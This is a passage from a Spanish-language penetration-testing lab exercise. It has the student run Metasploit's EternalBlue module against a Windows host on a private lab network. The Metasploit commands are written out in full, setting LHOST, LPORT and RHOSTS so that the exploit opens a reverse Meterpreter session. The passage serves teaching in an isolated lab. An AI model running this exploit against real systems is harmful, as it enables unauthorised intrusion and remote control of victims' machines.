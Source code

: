 **2.4. Ejecución del Exploit (2 puntos)**

Ejecuta el exploit para obtener una conexión Meterpreter con el servidor. Si la explotación es exitosa, documenta qué mensaje o salida te confirma que la conexión ha sido establecida.

````bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.2.9
LHOST => 10.0.2.9
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
````

![lhost](/assets/images/reverse.JPG)


Tip: Al ejecutar el exploit, Metasploit intentará establecer una sesión Meterpreter en la máquina víctima si el ataque es exitoso.
